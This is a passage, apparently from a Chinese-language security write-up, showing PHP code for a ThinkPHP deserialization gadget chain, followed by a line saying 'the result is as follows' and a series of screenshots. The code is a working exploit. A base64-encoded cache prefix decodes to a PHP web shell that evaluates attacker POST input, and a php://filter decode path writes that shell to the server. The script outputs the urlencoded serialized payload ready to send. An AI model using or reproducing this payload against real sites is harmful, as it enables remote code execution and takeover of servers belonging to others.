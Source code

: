 ```
    public function __construct()
    `{`
        $this-&gt;tag = true;
        $this-&gt;options = [
            'expire'   =&gt; 0,
            'prefix'   =&gt; 'PD9waHAgZXZhbCgkX1BPU1RbJ3pjeTIwMTgnXSk7ID8+',
        ];
        $this-&gt;handler = (new File);
    `}`
`}`

class File
`{`
    protected $tag;
    protected $options;
    public function __construct()
    `{`
        $this-&gt;tag = false;
        $this-&gt;options = [
            'expire'        =&gt; 3600,
            'cache_subdir'  =&gt; false,
            'prefix'        =&gt; '',
            'data_compress' =&gt; false,
            'path'          =&gt; 'php://filter/convert.base64-decode/resource=./',
        ];
    `}`
`}`

echo urlencode(serialize(new \think\Process()));
```

效果如下：

[![](https://p3.ssl.qhimg.com/t01cec8ab4bbf7a155a.png)](https://p3.ssl.qhimg.com/t01cec8ab4bbf7a155a.png)

[![](https://p1.ssl.qhimg.com/t01c6aba9c98cd082fe.png)](https://p1.ssl.qhimg.com/t01c6aba9c98cd082fe.png)

[![](https://p2.ssl.qhimg.com/t0118fe5763190463b2.png)](https://p2.ssl.qhimg.com/t0118fe5763190463b2.png)

[![](https://p2.ssl.qhimg.com/t01d543a98c4cfe377e.png)](https://p2.ssl.qhimg.com/t01d543a98c4cfe377e.png)

[![](https://p3.ssl.qhimg.com/t015cd4db8af99dfff4.png)](https://p3.ssl.qhimg.com/t015cd4db8af99dfff4.png)

[![](https://p0.ssl.qhimg.com/t0184210088b0ecefeb.png)](https://p0.ssl.qhimg.com/t0184210088b0ecefeb.png)

[![](https://p3.ssl.qhimg.com/t0133e4bc68272e9f3a.png)](https://p3.ssl.qhimg.com/t0133e4bc68272e9f3a.png)

